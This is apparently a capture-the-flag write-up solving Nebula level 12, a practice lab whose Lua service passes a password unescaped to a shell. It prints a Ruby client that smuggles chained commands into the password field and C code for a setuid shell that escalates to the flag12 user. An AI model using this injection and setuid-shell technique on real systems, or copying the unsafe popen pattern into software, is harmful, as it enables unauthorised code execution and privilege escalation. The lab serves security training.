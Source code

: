 ```yaml
---
title: "Exploit Exercises - Nebula Level 12"
date: 2014-01-26 20:12:53+08:00
tags: 
- Security
- Exercises
- Nebula
---
```


### About

There is a backdoor process listening on port 50001.

To do this level, log in as the *level12* account with the password *level12*. Files for this level can be found in /home/flag12.

<!-- more -->

### Source code

``` lua
-- /home/flag12/flag12.lua 
local socketlocal socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 50001))

function hash(password) 
  prog = io.popen("echo "..password.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local line, err = client:receive()
  if not err then
    print("trying " .. line) -- log from where ;\
    local h = hash(line)

    if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
      client:send("Better luck next time\n");
    else
      client:send("Congrats, your token is 413**CARRIER LOST**\n")
    end

  end

  client:close()
end
```


### Solution 

`prog = io.popen("echo "..password.." | sha1sum", "r")` this line of code in *hash()* function try to calc the hash of the password, but we can execute any command with a well structed *password*. 

Write a simple Ruby script to send command to server, here I construct a *password* to make the server build a *drop.c* file into directory /home/flag12.

``` ruby
require 'socket'

server = TCPSocket.open("127.0.0.1", 50001)
server.puts("hello && gcc -o /home/flag12/flag12 /tmp/drop.c && chmod 777 /home/flag12/flag12 && chmod +s /home/flag12/flag12 && echo hello ")
ret = server.gets.chomp
puts "#{ret}"
```

Remenber the piece of C code we used to drop privilege? Here it is again:

``` c 
/* /tmp/drop.c */
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main() {
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  execv("/bin/bash", NULL);
}
```

Run the Ruby script, I got

``` bash
level12@nebula:~$ ruby client.rb
Password: Better luck next time
```

It is all right, I have no interest in the password anyway. Take a look at the directory /home/flag12

``` bash
flag12@nebula:~$ ll /home/flag12
total 14
drwxr-x--- 1 flag12 level12   60 2014-03-02 22:45 ./
drwxr-xr-x 1 root   root     280 2012-08-27 07:18 ../
-rw-r--r-- 1 flag12 flag12   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag12 flag12  3353 2011-05-18 02:54 .bashrc
-rwsrwsrwx 1 flag12 flag12  7322 2014-03-02 22:45 flag12*
-rw-r--r-- 1 root   root     685 2011-11-20 21:22 flag12.lua
-rw-r--r-- 1 flag12 flag12   675 2011-05-18 02:54 .profile
```

Here is the executable *flag12* with Set-User-ID bit, run it and a bash with *flag12* user privilege will show up!
